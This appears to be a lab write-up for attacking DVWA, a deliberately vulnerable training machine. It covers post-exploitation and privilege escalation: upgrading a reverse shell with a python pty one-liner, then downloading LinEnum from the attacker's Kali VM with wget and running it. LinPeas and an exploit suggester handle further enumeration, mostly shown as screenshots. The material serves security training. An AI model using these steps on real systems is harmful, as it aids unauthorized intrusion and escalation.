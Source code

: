 # Post Exploitation and Privilege Escalation:

At this stage trying to execute a command using the sudo keyword gives us the following:

![Screen Shot 2022-04-25 at 13 28 35](https://user-images.githubusercontent.com/18306338/165151242-b36a820b-e655-4dbc-9588-98a840e50e3c.png)

The "no tty present on askpass program specified" message indicates we are not an user with sudo privileges.

In order to do an upgrade of our shell we need to resort to a python library called 'pty', which spawns a tty shell for us.

![Screen Shot 2022-04-25 at 13 35 11](https://user-images.githubusercontent.com/18306338/165151353-1a958504-d817-401b-b5e6-83516e97fa48.png)

https://netsec.ws/?p=337 - the following link gives quite a few options to spawn a tty shell using different scripting languages.

After executing the python -c 'import pty; pty.spawn("/bin/sh")' command we now see a different output when we execute sudo -l in our terminal.

![Screen Shot 2022-04-25 at 13 36 25](https://user-images.githubusercontent.com/18306338/165151424-a53572c9-4704-4850-9c9c-df2c44c1eaaa.png)

The first stage of 'upgrading' our terminal in now complete.

Next step is to enumerate the machine and get information about running processes/cron jobs/sudo users etc.
In order to achieve that we will use a tool called LinEnum.

First thing we need to do is download the git repo to our machine

![Screen Shot 2022-04-25 at 14 17 17](https://user-images.githubusercontent.com/18306338/165151715-c401f17e-d32c-46c4-ae77-be07ad76da45.png)

We can see the .sh file that we need to execute.

In order to execute the bash script file onto the DVWA machine we need to serve this file on a server, which will make the file accessible on the dvwa machine through the wget tool . For that purpose we use python http.server package.

We start the python server

<img width="728" alt="Screen Shot 2022-04-25 at 14 21 26" src="https://user-images.githubusercontent.com/18306338/165152343-e6744472-68a7-4538-9cfd-3fff18cc96e9.png">

Then we obtain the ip address of our Kali VM

![Screen Shot 2022-04-25 at 14 27 52](https://user-images.githubusercontent.com/18306338/165152506-6eaec5ff-e0de-4c96-994c-f6a8de87b404.png)

After we have the python server running and the ip address we navigate to the reversed shell and run ls -la command to see where we have write access.

After entering the tmp folder we use wget to get the http:\\10.0.2.15:8000\LinEnum\LinEmun.sh file

![Screen Shot 2022-04-25 at 14 36 34](https://user-images.githubusercontent.com/18306338/165152577-99ebd22b-f22a-4db7-bd0d-645919e978d5.png)

Initially trying to run the LinEmun.sh script yields a "Permission denied error". This is usually due to the fact that the file in place is missing the executable right and once added the script runs and we gather information for the DVWA machine.

<img width="765" alt="Screen Shot 2022-04-25 at 14 40 53" src="https://user-images.githubusercontent.com/18306338/165153030-c7ffb42f-7174-46a1-a140-4fc7217300f8.png">

## What is DVWA vulnerable to?

In order to evaluate what DVWA is vulnerable to we use the same approach with another tool called LinPeas.
![Screen Shot 2022-04-25 at 22 17 47](https://user-images.githubusercontent.com/18306338/165158976-f44b2092-fb6f-450c-b053-865bd42e9b85.png)

![Screen Shot 2022-04-25 at 22 18 15](https://user-images.githubusercontent.com/18306338/165158989-206a2189-fd90-4ce8-bb32-b854aad8434e.png)


and then in the DVWA reverse shell 

![Screen Shot 2022-04-25 at 22 22 54](https://user-images.githubusercontent.com/18306338/165159444-026f6045-67f7-49bb-909b-ded138b90120.png)

## What are the most probable exploits? (try using Linux exploit suggester)

![Screen Shot 2022-04-25 at 23 06 22](https://user-images.githubusercontent.com/18306338/165166569-ed74653c-c486-4ba8-8700-a8aae421320b.png)

![Screen Shot 2022-04-25 at 23 06 05](https://user-images.githubusercontent.com/18306338/165166587-c8d1e5b7-c350-459a-a833-81bd08ef5bbb.png)

## Check the most probable vulnerabilities

![Screen Shot 2022-04-25 at 23 06 53](https://user-images.githubusercontent.com/18306338/165166539-bff1ff92-e93d-468e-a92e-c4e7d191c1a0.png)

## Extra Mile: Try to exploit the machine using the most probable vulnerabilities

Screenshots in AdvancedTopic file
